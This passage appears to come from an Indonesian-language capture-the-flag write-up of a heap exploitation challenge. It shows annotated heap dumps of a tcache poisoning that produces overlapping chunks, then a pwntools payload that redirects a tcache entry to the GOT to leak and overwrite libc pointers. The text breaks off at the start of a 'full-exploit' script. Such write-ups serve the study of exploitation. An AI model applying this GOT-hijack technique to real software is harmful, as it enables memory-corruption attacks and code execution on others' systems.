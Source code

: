 ```python
# 0x1bab2b0:      0x0000000000000000      0x0000000000000021
# 0x1bab2c0:      0x6161616161616161      0x0000000000000000
# 0x1bab2d0:      0x0000000000000000      0x0000000000000031
# 0x1bab2e0:      0x0000000001bab350      0x0000000001bab2a0 
#                      ^----------------- tcache_entry
# 0x1bab2f0:      0x0000000001bab2c0      0x0000000001bab350
# 0x1bab300:      0x0000000000000000      0x0000000000000021
# 0x1bab310:      0x4242424242424242      0x0000000000000000
# 0x1bab320:      0x0000000000000000      0x0000000000000021
# 0x1bab330:      0x6262626262626262      0x0000000000000000
# 0x1bab340:      0x0000000000000000      0x0000000000000031
# 0x1bab350:      0x0000000000000000      0x0000000001bab310
# 0x1bab360:      0x0000000001bab330      0x0000000000000000
# 0x1bab370:      0x0000000000000000      0x000000000001fc91

delete('B' * 8)
# (0x30)   tcache_entry[1]: 0x1bab350 --> 0x1bab2e0 --> 0x1bab350 (overlap chunk with 0x1bab340(freed) ) !!!
# 0x1bab290:      0x0000000000000000      0x0000000000000021
# 0x1bab2a0:      0x4141414141414141      0x0000000000000000
# 0x1bab2b0:      0x0000000000000000      0x0000000000000021
# 0x1bab2c0:      0x6161616161616161      0x0000000000000000
# 0x1bab2d0:      0x0000000000000000      0x0000000000000031
# 0x1bab2e0:      0x0000000001bab350      0x0000000001bab2a0
#                      ^----------------- tcache_entry
# 0x1bab2f0:      0x0000000001bab2c0      0x0000000001bab350
# 0x1bab300:      0x0000000000000000      0x0000000000000021
# 0x1bab310:      0x4242424242424242      0x0000000000000000
# 0x1bab320:      0x0000000000000000      0x0000000000000021
# 0x1bab330:      0x6262626262626262      0x0000000000000000
# 0x1bab340:      0x0000000000000000      0x0000000000000031
# 0x1bab350:      0x0000000001bab2e0      0x0000000001bab310
#                      ^----------------- tcache_entry
# 0x1bab360:      0x0000000001bab330      0x0000000000000000
# 0x1bab370:      0x0000000000000000      0x000000000001fc91
```
Dengan begitu payload sebelumnya untuk leak hanya perlu diubah sedikit untuk mengotrol tcache_entry ke got,

```python
fake_list = p64(0x602078) # tcache_entries -> got
fake_list += p64(0x00400505) # key : str.malloc
fake_list += p64(0x602020) # value : reloc.puts
fake_list += p64(0) # next

insert('A' * 8, fake_list)
```
tepat setelah beberapa kali malloc di fastbin[1], malloc akan return pointer di got.

## full-exploit
```python
#!/usr/bin/env python
from pwn import *
import sys, os

gdbcmd = 'b *0x004011ca'

context.terminal = 'kitty @ new-window --new-tab --tab-title pwn --keep-focus sh -c'.split()
# context.log_level = 'warn'


if sys.argv.__len__() == 3:
    r = remote(sys.argv[1], int(sys.argv[2]))
```